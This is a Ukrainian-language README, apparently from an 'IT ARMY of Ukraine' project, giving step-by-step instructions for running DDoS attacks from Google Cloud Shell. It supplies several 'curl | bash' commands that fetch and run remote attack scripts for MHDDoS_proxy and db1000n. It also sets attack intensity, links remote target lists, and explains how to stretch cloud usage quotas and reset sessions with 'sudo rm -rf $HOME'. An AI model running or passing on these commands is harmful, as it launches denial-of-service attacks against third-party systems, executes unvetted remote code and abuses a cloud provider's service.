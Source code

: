 ## DDoS whith Google Cloud Shell
#### Scripts for durable cloudshell session. Test!
#
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal
#
### Команди для встановлення та запуску MHDDoS_proxy
**Layer7:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
**Layer4:**    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash
```
**All list (*--itarmy*):**    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/itarmy.sh | bash
```
**Розділений термінал (Layer7+Layer4):**    
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```    
.    
:white_check_mark: *Автоперезапуск скриптів, метод атаки додається зі списку цілей, параметр -t за замовчуванням 1000.    
За потреби параметр -t можна змінити додавши до команди ` -s -- "кількість"`, напр. `-s -- 2000`*    
#
### Команда для встановлення та запуску db1000n
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/db1000n_GShell.sh | bash
``` 
#
:exclamation:• У [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) в налаштуваннях бажано **вимкнути статистику використання**.    
:exclamation:• **Рекомендується використовувати 1 термінал на акаунт**.    
:exclamation:• Максимальна тривалість сеансу Cloud Shell обмежена 12 годинами. Новий сеанс можна почати одразу після розриву.    
:exclamation:• Враховуйте, що встановлені тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі (*до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень*)    
• **Для скидання Cloud Shell** - Видаліть усі файли з домашнього каталогу, команда: `sudo rm -rf $HOME`, далі - у меню Cloud Shell клацніть значок меню з трьома крапками, а потім натисніть "Restart" *(Буде надано нову віртуальну машину, а домашній каталог буде відновлено до стану за замовчуванням)*
#
#
#### Списки з цілями
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4t.lst
#
#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
